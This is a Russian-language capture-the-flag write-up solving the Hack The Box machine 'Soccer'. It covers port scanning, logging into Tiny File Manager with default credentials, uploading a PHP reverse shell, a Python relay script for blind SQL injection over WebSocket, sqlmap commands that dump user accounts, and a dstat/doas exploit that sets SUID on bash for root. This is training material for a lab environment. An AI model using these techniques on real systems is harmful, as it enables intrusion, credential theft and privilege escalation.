






# Soccer

:white_check_mark:  [**Tiny_File_Manager**](#Tiny_File_Manager)

:white_check_mark:  [**WebSocket_SQL_Injection**](#WebSocket_SQL_Injection)

:white_check_mark:  [**Sqlmap_database_dump**](#Sqlmap_database_dump)

:white_check_mark:  [**Doas(privesc)**](#Doas(privesc))

:white_check_mark:  [**Dstat(privesc)**](#Dstat(privesc))

___

## Port scan
Сканируем ip командами:
```
nmap -Pn -p- soccer.htb

nmap -sC -sC -p 22,80,9091 soccer.htb
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http
|_http-title: Soccer - Index 
9091/tcp open  xmltec-xmlmail
```

## Web Page

Главная страница **soccer.htb**:



Попробуем найти директории дааного сайта:
```
gobuster dir -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100
```

```
/tiny     (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```



<a name="Tiny_File_Manager"></a>

## Tiny File Manager

Перейдя по адресу **soccer.htb/tiny**, мы попадаем на страницу логина к **Tiny File Manager**.



Попробовав найти эксплоиты к данному файловому менеджеру, мы можем наткнуться на данный [эксплоит](https://www.exploit-db.com/exploits/50828).

Исследовав его код, мы можем найти стандартные данные от файлового менеджера.


Попробуем использовать их, чтобы войти в систему.



Вход был выполнен успешно.

В данном мменю у нас есть возможность загружать свои файлы.


Загрузим php reverse shell.



Запускаем слушатель и открываем только что загруженный файл.

```
http://soccer.htb/tiny/uploads/php-reverse-shell.php
```

Получаем обратную оболочку.


## Subdomain soc-player.soccer.htb

Стабилизируем оболочку и закидываем на машину linpeas. Из вывода linpeas, мы можем выяснить, что существует поддомен **soc-player.soccer.htb**.



Добавим данный поддомен в /etc/hosts и перейдем на сайт.


Теперь в левом верхнем углу мы можем заметить расширенный функционал данного сайта. Зарегистрируемся на сайте.


<a name="WebSocket_SQL_Injection"></a>

## WebSocket SQL Injection

Зарегистрировавшись, перейдем в меню **Tickets**.


В данное поле мы можем вводить id ticket-a. Скорее всего, данная страница уязвима к SQL Injection. Просмотрим код страницы.

В коде страницы мы можем обнаружить, что сайт использует WebSocket, а не http, чтобы обмениваться данными.


Данный [сайт](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) описывает то, как можно применить SQL Injection к WebSocket.

Запишем скрипт на машину. Код скрипта:

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

В данном скрипте изменяются ws_server и data на требуемые.

Запускаем скрипт.


<a name="Sqlmap_database_dump"></a>

Теперь мы можем спокойно пользоваться sqlmap. Для этого Сдампим базы данных.

```
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```


```
sqlmap -u http://localhost:8081/?id=1 -D soccer_db --tables
```


```
sqlmap -u http://localhost:8081/?id=1 -D soccer_db -T accounts --dump
```


Получим данные пользователя, подключимся по ssh.

<a name="Doas(privesc)"></a>

<a name="Dstat(privesc)"></a>

## Privesc

Снова используем скрипт linpeas. Из вывода скрипта, мы можем заметить наиболее вероятный вектор атаки на doas и dstat.


_Doas - альтернатива sudo_


Для повышения привилегий, мы можем использовать информацию с данного [сайта](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/)

Используем следующие команды для повышения привилегий:

```
cd /tmp
nano dstat_exploit.py
```

Код dstat_exploit.py:

```
import os

os.system('chmod +s /usr/bin/bash')
```

```
dstat --list | grep exploit

doas -u root /usr/bin/dstat --exploit
```

Мы получили root.


